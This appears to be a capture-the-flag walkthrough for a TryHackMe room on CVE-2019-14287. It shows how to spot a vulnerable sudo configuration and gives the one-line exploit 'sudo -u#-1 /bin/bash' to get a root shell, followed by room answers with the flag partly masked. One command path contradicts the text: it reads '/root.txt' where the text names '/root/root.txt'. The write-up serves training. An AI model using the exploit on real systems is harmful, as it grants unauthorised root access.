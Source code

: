 ```yaml
---
title: Sudo Security Bypass - TryHackMe
published: 2020-08-16
description: 'A step-by-step guide to identifying and exploiting CVE-2019-14287 in the Unix Sudo Program.'
image: './cover.jpg'
tags: [TryHackMe, CVE-2019-14287, Sudo, Privilege Escalation]
category: 'TryHackMe'
draft: false
---
```


## Introduction

This guide provides a detailed walkthrough for identifying and exploiting CVE-2019-14287, a privilege escalation vulnerability in the Unix Sudo program. This is Room One in the SudoVulns Series on TryHackMe, designed to teach security bypass techniques.

> **TryHackMe Room: Sudo Security Bypass**  
> A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series.  
> [Visit Room](https://tryhackme.com/room/sudovulnsbypass?source=post_page-----c78cb21aa0cb---------------------------------------)

## Task 1: Deploy

To begin, deploy the TryHackMe machine and connect to it using SSH with the following command, replacing `<port-number>`, `<username>`, and `<remote-machine-ip>` with the values provided by TryHackMe:

```bash
ssh -p <port-number> <username>@<remote-machine-ip>
```

:::note
Ensure you have the correct credentials and port number from the TryHackMe room instructions.
:::

## Task 2: Security Bypass

### Checking for Vulnerability

To determine if the target machine is vulnerable to CVE-2019-14287, first check the sudo configuration by running:

```bash
sudo -l
```

**Expected Output**:
```
User <username> may run the following commands on <hostname>:
    (ALL, !root) /bin/bash
```

If the output includes `(ALL, !root) /bin/bash`, the machine may be vulnerable, as this configuration allows the user to run `/bin/bash` as any user except `root`—a restriction that CVE-2019-14287 can bypass.

![sudo -l output](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dkduYM7DGoO1UrI6wC7STg.png)
*Image: Output of `sudo -l` showing the vulnerable configuration `(ALL, !root) /bin/bash`.*

To confirm vulnerability, check the sudo version:

```bash
sudo --version
```

![sudo version check](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tljqQqVfF7IUSVvIk_FJFA.png)
*Image: Checking the sudo version to confirm vulnerability (Sudo < 1.8.28).*

If the version is **Sudo < 1.8.28** (e.g., 1.8.27 or earlier), the machine is vulnerable. This is because CVE-2019-14287 exploits a flaw in how sudo handles negative user IDs.

:::note
This vulnerability was patched in Sudo version 1.8.28, released in October 2019.
:::

### Exploiting the Vulnerability

CVE-2019-14287 allows a user to bypass the `(ALL, !root)` restriction by specifying an invalid user ID (`-u#-1`), which sudo interprets as the root user due to improper validation. To exploit this, run:

```bash
sudo -u#-1 /bin/bash
```

![security bypass exploit](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XxHCy_a432wtnCSVzlsVSQ.png)
*Image: Executing the exploit command `sudo -u#-1 /bin/bash` to gain a root shell.*

This command grants a root shell, as the `-u#-1` flag tricks sudo into running `/bin/bash` as the root user (UID 0).

### Capturing the Root Flag

With root access, navigate to the `/root` directory and read the `root.txt` file to retrieve the flag:

```bash
cd /root
cat /root.txt
```

![root flag](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*SPWk07gIDobGn4ljOGAq8g.png)
*Image: Displaying the root flag from `/root/root.txt`.*

The flag will be in the format `THM{...}`.

## Challenges

**#1. What command are you allowed to run with sudo?**  
**Answer**: `/bin/bash`

**#2. What is the flag in /root/root.txt?**  
**Answer**: `THM{l33t_********_******}`

## Conclusion

Congratulations! You’ve successfully identified and exploited CVE-2019-14287 to bypass sudo’s security restrictions and capture the root flag. This exercise demonstrates the importance of keeping software up to date to mitigate known vulnerabilities.


